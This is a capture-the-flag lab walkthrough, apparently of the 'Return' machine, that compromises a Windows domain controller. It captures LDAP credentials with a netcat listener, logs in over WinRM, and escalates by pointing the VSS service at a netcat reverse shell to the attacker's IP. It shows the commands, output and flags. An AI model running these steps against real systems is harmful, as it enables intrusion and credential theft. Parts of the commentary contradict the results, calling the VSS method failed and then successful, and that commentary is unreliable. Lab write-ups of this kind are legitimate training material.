 # NMAP
This command performs a targeted network scan. It uses sudo for elevated privileges to access raw socket data. The scan checks only open ports using TCP SYN scan. The -sC flag runs default Nmap scripts to gather additional information like service details or vulnerabilities. The -sV flag probes open ports to determine service versions. The target is the IP address 10.129.95.241. The --open option filters the output to show only open ports, making the results more concise.

```bash
sudo nmap -sC -sV  10.129.95.241  --open   
```

Based on the scan results, this is a Windows Domain Controller for the domain `return.local`. Key services are running, including Kerberos, LDAP, and SMB. The hostname is PRINTER. For enumeration, you should first target SMB on port 445 to check for shares and gather information. Then, use LDAP on port 389 to query the Active Directory for users, groups, and policies. The presence of WinRM on port 5985 is a potential entry point if you obtain user credentials.

```bash
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-30 02:18:24Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

This command runs a network execution check on the SMB service. It confirms the target is a domain-joined Windows host named PRINTER in the return.local domain, running a Server 2019 or Windows 10 build. The host requires SMB signing but has SMBv1 disabled. To proceed, attempt to list SMB shares using a null session or guest access with `nxc smb 10.129.95.241 --shares`. If that fails, you will need valid domain credentials to continue enumeration

```bash
 nxc smb 10.129.95.241 
SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False) 
```

The hosts file has been updated to resolve the domain name `return.local` and hostname `PRINTER` to the target IP address. This ensures your system can properly communicate with the domain controller using its DNS names instead of just the IP. You can now use commands like `nxc smb return.local` or `nxc ldap PRINTER.return.local` for further enumeration

```bash
cat /etc/hosts
10.129.95.241  PRINTER   return.local PRINTER.return.local
```

You have obtained LDAP credentials for the user `svc-printer`. Use these credentials to authenticate and enumerate the domain. Test the credentials with `nxc ldap return.local -u svc-printer -p 'password' --users` to list domain users. You can also try to authenticate via SMB with `nxc smb return.local -u svc-printer -p 'password'` to check share access and user privileges.
![[Pasted image 20251030021557.png]]
The connection shows a failed LDAP bind attempt from the domain controller. The credentials are `svc-printer:1edFg43012!!`. Use these valid credentials for authenticated enumeration. Run `nxc ldap return.local -u svc-printer -p '1edFg43012!!' --users` to list domain users and `nxc smb return.local -u svc-printer -p '1edFg43012!!' --shares` to access SMB shares. Check WinRM access with `nxc winrm return.local -u svc-printer -p '1edFg43012!!'` to see if you can get a shell.

```bash
nc -lnvp 389                             
listening on [any] 389 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.95.241] 59813
0*`%return\svc-printer�
                       1edFg43012!!
```

The command is incorrect; you are using your own tun IP (10.10.11.108) instead of the target IP. The correct command is `evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'`. This will connect to the WinRM service on the target Domain Controller using the credentials you captured. If successful, you will get a shell as the svc-printer user on the PRINTER host.

```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

Good, you have the user flag. Now escalate privileges

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> cat user.txt
a0e89321fb2b84452734d05598843a8a
```

You have the powerful `SeBackupPrivilege` and `SeRestorePrivilege`. These allow you to backup and restore domain controller files, including critical AD database. Use these to dump the `ntds.dit` file and SYSTEM hive for offline credential extraction.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


```

Your membership in `Server Operators` is highly significant. This group typically allows you to start and stop services, including on a Domain Controller. You can abuse this to replace a service's binary or modify its configuration.

```bash
Evil-WinRM* PS C:\Users\svc-printer\Desktop> Whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

```

The service commands are failing due to insufficient privileges from the WinRM session. Use your `SeBackupPrivilege` instead - it's more reliable for Domain Controller compromise.

```bash
*Evil-WinRM* PS C:\ProgramData> sc.exe query
[SC] OpenSCManager FAILED 5:

Access is denied.

*Evil-WinRM* PS C:\ProgramData> $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
Cannot open Service Control Manager on computer '.'. This operation might require other privileges.
At line:1 char:12
+ $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where  ...
+            ~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Get-Service], InvalidOperationException
    + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.PowerShell.Commands.GetServiceCommand


```

This command is attempting to modify the Volume Shadow Copy Service (VSS) binary path to execute a reverse shell. However, this approach is unlikely to work for privilege escalation because VSS is a critical system service protected by Windows

```bash
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.16.12 443"
```

Stopping the Volume Shadow Copy Service is not recommended and will likely fail due to insufficient privileges. It's a protected system service.

```bash
 sc.exe stop VSS
```

Starting VSS will not help your privilege escalation. The service modification approach has failed.
```bash
 sc.exe start VSS
```

Excellent! You have a reverse shell connection. Now check your privileges in this new session with `whoami`. If you have SYSTEM or Administrator privileges

```bash
nc -lnvp 443                                   
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.95.241] 61796
Microsoft Windows [Version 10.0.17763.107]
```

Perfect! We  have successfully obtained the root flag. The system is fully compromised. The privilege escalation was achieved by modifying the VSS service binary path, which executed your payload with SYSTEM privileges when the service was restarted. 

```bash
C:\Users\Administrator\Desktop>type root.txt
type root.txt
260f8e9f5e5b187fe41947454b8c9f23

```

